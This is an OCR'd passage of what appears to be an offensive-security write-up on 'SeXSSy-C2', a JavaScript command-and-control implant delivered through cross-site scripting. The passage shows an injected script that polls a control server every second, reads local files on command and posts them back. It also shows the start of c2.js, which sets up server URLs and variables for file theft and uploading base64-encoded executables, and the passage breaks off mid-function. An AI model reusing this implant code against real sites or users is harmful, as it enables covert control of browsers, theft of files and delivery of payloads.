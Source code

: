 ```
        headers: 
        {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        method: "POST"
    })
}

async function executeCommand() {
    if (command == "lfi") {
        await runLFI()
    }

}

setInterval(function(){ 
    getCommand();
    executeCommand();
}, 1000);
```
<br>
The first few lines are just global parameter declarations and then we arrive to the core of the code. setInterval is tricky however it is just a while(true) sleep(1000) combination that JavaScript can understand and check back-in every periodic interval set. What it does is that every x millisecond (here 1000 so every 1 second) the content of the function will run (getCommand(); and executeCommand();)
As soon as we inject the script, we can see that the requests to getCommand are getting in and when we set the command to LFI and the desired file, we get a saveFile request and the file is fetched saved on our disk.

<h2>SeXSSy-C2 - v0.1</h2>
After few modifications we can import all of our previous scripts into one single file that we can control from our server. Keeping in mind that we intentionally made the script as close to the previous ones as we could. The priority was to make it as understandable as it can be.
<br>
c2.js:
```
serverURL = "http://127.0.0.1:5000"
commandUrl = serverURL + "/getCommand"
var command = "" 
var lfiFile = ""
var exit = false
var value = ""
var key = ""
var base64File = ""
var uploadFileName = ""
var contentType = "application/x-executable"

const COMMAND = "command"
const LFIFILE = "lfiFile"
const VALUE = "value"
const KEY = "key"
const BASE64FILE = "base64File"
const UPLOADFILENAME = "uploadFileName"
var contentType = "application/x-executable"

function parseCommand (element) {
    element = element.split("=");
    if (element[0] == COMMAND) {
        command = element[1];
    }
    if (element[0] == LFIFILE) {
        lfiFile = element[1];
    }
```